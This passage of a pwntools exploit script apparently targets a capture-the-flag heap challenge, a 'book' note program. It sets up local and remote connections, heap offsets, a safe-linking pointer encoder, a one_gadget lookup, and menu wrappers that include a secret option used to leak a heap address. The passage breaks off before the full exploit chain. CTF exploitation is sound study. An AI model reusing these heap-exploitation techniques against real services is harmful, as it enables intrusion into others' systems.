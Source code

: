 ```py
        return pwn.process([exe.path] + argv, *a, **kw)


def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = pwn.connect(host, port)
    if pwn.args.GDB:
        pwn.gdb.attach(io, gdbscript=gdbscript)
    return io


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if pwn.args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)


gdbscript = '''
source /home/nasm/Downloads/pwndbg/gdbinit.py
'''.format(**locals())

HEAP_OFFT = 0x3d10
CHUNK3_OFFT = 0x3d50
STDOUT = 0x21a780

def encode_ptr(heap, offt, value):
    return ((heap + offt) >> 12) ^ value

import subprocess
def one_gadget(filename):
  return [int(i) for i in subprocess.check_output(['one_gadget', '--raw', filename]).decode().split(' ')]

def exp():

    io = start()

    def init(flip):
        io.sendlineafter(b"> ", flip)
    
    def add(idx, data: bytes):
        io.sendlineafter(b"Option: ", b"1")
        io.sendlineafter(b"Index: ", str(idx).encode())
        io.sendlineafter(b"Write me a book no more than 32 characters long!\n", data)

    def edit(idx, data):
        io.sendlineafter(b"Option: ", b"2")
        io.sendlineafter(b"Index: ", str(idx).encode())
        io.sendlineafter(b"Write me the new contents of your book that is no longer than what it was before.\n", data)

    def free(idx):
        io.sendlineafter(b"Option: ", b"3")
        io.sendlineafter(b"Index: ", str(idx).encode())

    def heapLeak(idx):
        io.sendlineafter(b"Option: ", b"1337")
        io.sendlineafter(b"What is your favourite number? ", str(idx).encode())
        io.recvuntil(b"You found a secret message: ")
        return int(io.recvline().replace(b"\n", b"").decode(), 16) - HEAP_OFFT

```